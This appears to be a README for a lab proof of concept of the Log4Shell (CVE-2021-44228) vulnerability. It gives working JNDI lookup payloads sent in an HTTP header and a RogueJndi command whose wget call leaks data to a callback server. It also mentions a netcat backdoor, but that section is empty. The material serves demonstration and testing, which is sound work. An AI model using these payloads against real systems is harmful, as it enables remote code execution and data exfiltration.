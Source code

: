 # Log4Shell POC

Demonstrates the Log4Shell (CVE-2021-44228) vulnerability.
You can run a simple attack to demonstrate JNDI out of band (OOB) attack. But also more sophisticated attacks with your own code e.g. to open a backdoor using netcat (nc).

This repo consists for three parts:

1. Vulnerable App (Vulnerable-App)
2. JNDI Server (RogueJndi)
3. Vulnerability Scanner (Nuclei)

All three repos have their origin in separate upstream projects (see following sections for more details)

# Requirements

1. Java
2. Maven

## Install maven

### MacOS

```bash
brew install maven
```

# Setup

## Run the vulnerable app

```bash
docker build -f log4shell-vulnerable-app/Dockerfile -t vulnerable-app log4shell-vulnerable-app/.
docker run -p 8080:8080 --name vulnerable-app --rm vulnerable-app
```

## Test the app

Just run the following command. It will return "Hello, world!". Check the app's command line for error message. It will try to lookup the jndi server running on localhost port 1389.

```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://localhost:1389/a}'
```

```bash
2022-02-06 11:13:28,611 http-nio-8080-exec-1 WARN Error looking up JNDI resource [ldap://localhost:1389/a]. javax.naming.CommunicationException: localhost:1389 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
        at com.sun.jndi.ldap.Connection.<init>(Connection.java:238)
        at com.sun.jndi.ldap.LdapClient.<init>(LdapClient.java:137)
```

# Attack

## Simple attack

The JNDI Server (RogueJNDI) will run a JNDI server (port 1389) and a http server (8000). The JNDI Server will serve vulnerable code to be executed on the vulnerable-app. The http server is a backcall server for receiving calls sent from the vulnerable app.

## Run the JNDI server

get your local ip address (MacOS)

```bash
# for ethernet
ipconfig getifaddr en0
# for wireless
ipconfig getifaddr en1

```

```bash
cd rogue-jndi
mvn compile package
java -jar target/RogueJndi-1.1.jar -c "wget http://your-private-ip:8000 -H 'leak:$(JAVA_VERSION)'"
```

## Issue simple attack

```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/a/${env:JAVA_HOME}}'
```

## Backdoor

# Details

# References

## Vulnerable app

https://github.com/christophetd/log4shell-vulnerable-app

## RogueJNDI

https://github.com/veracode-research/rogue-jndi.git

## Nuclei

